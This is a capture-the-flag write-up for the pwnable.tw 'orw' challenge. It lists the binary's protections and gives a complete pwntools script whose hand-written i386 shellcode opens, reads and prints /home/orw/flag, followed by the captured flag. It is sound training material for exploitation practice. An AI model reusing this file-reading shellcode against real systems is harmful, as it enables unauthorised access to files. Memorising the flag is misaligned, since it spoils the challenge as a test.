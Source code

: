 # orw [100 pts]

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

## concept

直接寫 shellcode 做 Open Read Write 讀出 ```/home/orw/flag```。

## exploit

```python
#!/usr/bin/env python

from pwn import *

# r = process('./orw')
r = remote('chall.pwnable.tw', 10001)

shellcode = asm('''
            push 0x00006761
            push 0x6c662f77
            push 0x726f2f65
            push 0x6d6f682f
            mov ebx, esp
            xor ecx, ecx
            xor edx, edx
            mov eax, 5
            int 0x80

            mov ebx, eax
            mov ecx, 0x0804a040
            mov edx, 0x30
            mov eax, 3
            int 0x80

            mov ebx, 1
            mov ecx, 0x0804a040
            mov edx, 0x30
            mov eax, 4
            int 0x80
            ''')

r.recvuntil(':')
r.send(shellcode)

r.interactive()
```

## flag

```FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}```
